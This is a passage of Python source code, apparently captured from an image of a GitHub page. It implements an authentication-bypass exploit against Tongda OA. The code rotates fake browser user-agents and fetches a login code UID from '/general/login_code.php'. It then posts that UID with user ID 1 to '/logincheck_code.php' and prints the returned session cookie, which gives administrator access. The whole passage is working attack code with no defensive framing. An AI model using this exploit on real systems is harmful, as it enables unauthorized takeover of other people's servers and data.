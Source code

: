         "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
        "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
        "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
        "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
        "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
        "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
    ]
            self.payload_url_uid = '/general/login_code.php'
            self.payload_url_cookie = '/logincheck_code.php'
            self.headers= {'headers':random.choice(self.user_agent)}
            self.vulhub = False



        def get_tongda_uid(self):
            url =self.url+self.payload_url_uid

            r = requests.get(url=url,headers=self.headers,verify=False).text
            print('[*] Checking current URL UID' )
            uid_txt =r.split('code_uid')
            uid_compile = re.compile(r'"({.*})"')
            try:
                get_uid = re.findall(uid_compile,r)
                if len(get_uid) > 0:
                    print('【+】 Get current uid successfully',get_uid[0])
                    self.vulhub = True
                    return get_uid
                else:
                    print('[-] Failed to get current UID')

            except Exception as error:
                pass

        def get_tongda_cookies(self):
            url =self.url +self.payload_url_cookie
            data = {'CODEUID':self.get_tongda_uid(),'UID':1}
            r =requests.post(url,data=data,headers =self.headers,verify=False)
            try:
                if r.headers['Set-Cookie'] != None and self.vulhub != False:
                   tongda_cookie =r.headers['Set-Cookie']
                   print('【+】 Get session of current URL successfully',tongda_cookie)

                else:
                    print('[-] Failed to get session of current URL')

            except Exception as error:
                pass





